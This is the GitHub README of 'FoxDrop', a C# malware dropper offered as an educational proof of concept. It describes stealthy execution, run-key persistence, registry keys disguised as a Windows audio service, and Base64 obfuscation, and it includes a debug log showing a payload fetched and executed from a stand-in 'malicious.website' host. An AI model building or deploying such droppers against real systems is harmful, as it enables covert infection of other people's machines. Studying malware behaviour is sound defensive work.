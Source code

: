 
![Logo](https://cdn.lypd0.com/FoxDrop/logo.png)


<h1 align="center">FoxDrop - A Malware Dropper Proof-of-Concept</h1>
<p align="center">
  <a href="#"><img alt="forksBDG" src="https://img.shields.io/github/forks/lypd0/FoxDrop?style=for-the-badge"></a>
  <a href="#"><img alt="starsBDG" src="https://img.shields.io/github/stars/lypd0/FoxDrop?style=for-the-badge"></a>
  <a href="#"><img alt="licenseBDG" src="https://img.shields.io/github/license/lypd0/FoxDrop?style=for-the-badge"></a>
  <a href="#"><img alt="languageBDG" src="https://img.shields.io/badge/LANGUAGE-CSHARP-green?style=for-the-badge"></a>
<h3 align="center">Usage on unauthorized systems is strictly forbidden</h3>

## Overview
FoxDrop is an educational proof-of-concept (PoC) malware dropper designed to illustrate the functionality of a dropper and its potential impact on a system. This project aims to provide insights into malware behavior, showcasing how droppers can silently infiltrate systems, execute payloads, and maintain persistence.

## Features
FoxDrop offers a range of features, including but not limited to:

- **Stealthy Execution**: FoxDrop operates discreetly, avoiding detection by traditional security measures.
- **Persistence**: It ensures its presence on the system by adding a run policy for execution on system reboot.
- **Dynamic Payload Retrieval**: FoxDrop fetches payloads from specified URLs, allowing for flexible and adaptable malware behavior.
- **Registry Manipulation**: To evade detection, FoxDrop creates decoy registry keys, camouflaging its activities.
- **Payload Integrity Checks**: FoxDrop hashes downloaded payloads and compares them to stored hashes to prevent re-execution.
- **Obfuscation Techniques**: FoxDrop supports Base64 decoding, adding an additional layer of obfuscation to its operation.

## Usage
Using FoxDrop for educational purposes involves several steps:
1. **Compilation**: Compile the provided source code using a C# compiler to generate the executable binary.
2. **Execution**: Execute the compiled binary on a target system to observe its behavior.
3. **Customization**: Customize the payload download URLs and other variables in the source code for experimentation.

## Disclaimer
FoxDrop is intended for educational purposes only. The author does not endorse or encourage any illegal or malicious use of this software. Any misuse or unethical use of FoxDrop is strictly prohibited.

## Author
FoxDrop is developed by Luigi Fiore, also known as lypd0. Luigi is passionate about cybersecurity education and aims to raise awareness about malware threats.

## License
This project is licensed under the MIT License, allowing for exploration, modification, and distribution. Refer to the [LICENSE](LICENSE) file for detailed licensing terms.

## Troubleshooting and Debugging
FoxDrop includes built-in troubleshooting and debugging features to aid in understanding its behavior. These features provide insights into FoxDrop's configuration and highlight any potential issues that may affect its operation.

FoxDrop includes built-in troubleshooting and debugging features to aid in understanding its behavior:
```cpp
[╒═■] Build Information: 
[├] Assembly Info: FoxDrop, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null
[├] Execution Path: C:\Path\To\FoxDrop.exe
[└] Polymorphic Seed: 8bc8f9bfb6b6a42640a37dcf9aa9a22b

[*] Performing Checks... 
· Polymorphism Disabled, Checking static name ... OK.
· Checking Delay ... OK.

Press ENTER to exit.
```

## Debug Log
During execution, FoxDrop logs debug information to provide visibility into its operations. This debug log offers detailed information about FoxDrop's actions, facilitating analysis and comprehension of its behavior.

```cpp
[*] Waiting 300000 ms ...
[*] First execution on system: TRUE.
[*] Folder "92cbea44" created in the Registry.
[*] Created BEA key.
[*] Created "ShortcutName" key with value "Windows Audio Device Graph Isolation".
[*] Created "Path" key with value "C:\Windows\System32\audiodg.exe".
[*] Reading content from "https://pastebin.com/raw/b4SYNyAT".
[*] Loaded following data: "https://malicious.website/malware.exe;C:\Users\User\Downloads\malware.exe".
[*] Downloading & executing payload from "https://malicious.website/malware.exe"
[*] Downloaded payload to C:\Users\User\Downloads\malware.exe
[*] Payload started from C:\Users\User\Downloads\malware.exe
[*] Payload hash (md5) added to list to prevent re-execution.
```

## Conclusion
FoxDrop serves as a valuable educational tool for understanding malware droppers and their implications. By exploring its features and behavior, users can gain insights into malware tactics and enhance their cybersecurity knowledge and defenses.
